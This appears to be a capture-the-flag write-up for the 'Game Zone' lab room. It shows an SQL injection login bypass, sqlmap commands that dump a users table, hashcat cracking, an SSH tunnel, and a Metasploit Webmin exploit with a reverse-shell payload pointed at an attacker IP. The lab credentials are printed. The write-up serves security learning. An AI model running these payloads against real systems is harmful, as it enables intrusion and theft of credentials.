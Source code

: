 # Game Zone

```bash
nmap 10.10.249.76
```

![](<../../.gitbook/assets/Screenshot from 2020-09-11 09-00-46.png>)

## :syringe: Obtain access via SQLi

### What is the name of the large cartoon avatar holding a sniper on the forum?

{% embed url="https://hitman.fandom.com/wiki/Category:Hitman:_Contracts_characters" %}

### When you've logged in, what page do you get redirected to?

```
' or 1=1 -- -
```

* The last dash is suppose to keep the space&#x20;

![](<../../.gitbook/assets/Screenshot from 2020-09-11 09-13-46.png>)

## :map: Using SQLMap

### In the users table, what is the hashed password?

```
sqlmap --data 'searchitem=' -p searchitem -u http://10.10.249.76/portal.php \
       --cookie 'PHPSESSID=s0s9dmej46qkstaqrh40uv04o6' --dbms mysql --dbs

sqlmap --data 'searchitem=' -p searchitem -u http://10.10.249.76/portal.php \
       --cookie 'PHPSESSID=s0s9dmej46qkstaqrh40uv04o6' --dbms mysql -D db --tables

sqlmap --data 'searchitem=' -p searchitem -u http://10.10.249.76/portal.php 
       --cookie 'PHPSESSID=s0s9dmej46qkstaqrh40uv04o6' --dbms mysql -D db 
       -T users --dump
```

![](<../../.gitbook/assets/Screenshot from 2020-09-11 09-29-26.png>)

### What was the username associated with the hashed password?

{% hint style="success" %}
agent47
{% endhint %}

### What was the other table name?

![](<../../.gitbook/assets/Screenshot from 2020-09-11 09-30-27.png>)

## Cracking a password with JohnTheRipper

### What is the de-hashed password?

```bash
echo 'ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14' > sha256.txt
hashcat -a 0 -m 1400 sha256.txt /usr/share/wordlists/rockyou.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-11 09-39-28.png>)

### What is the user flag?

```bash
ssh agent47@10.10.249.76 cat user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-11 09-40-41.png>)

## :hole: Exposing services with reverse SSH tunnels

### How many TCP sockets are running?

```
netstat -ntlp
```

![](<../../.gitbook/assets/Screenshot from 2020-09-11 09-49-03.png>)

### What is the name of the exposed CMS?

```
ssh -NfL 10000:localhost:10000 agent47@10.10.32.65
```

![](<../../.gitbook/assets/Screenshot from 2020-09-11 09-55-53.png>)

### What is the CMS version?

![](<../../.gitbook/assets/Screenshot from 2020-09-11 09-56-15.png>)

## :skull\_crossbones: Privilege Escalation with Metasploit

### What is the root flag?

```bash
msfconsole -q
msf > search webmin 1.580
msf > use 4
msf > set RHOSTS 127.0.0.1
msf > set USERNAME agent47
msf > set PASSWORD videogamer124
msf > set SSL false
msf > set payload cmd/unix/reverse
msf > set LHOST 10.9.101.193
msf > exploit
```

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-11 14-20-31.png>)
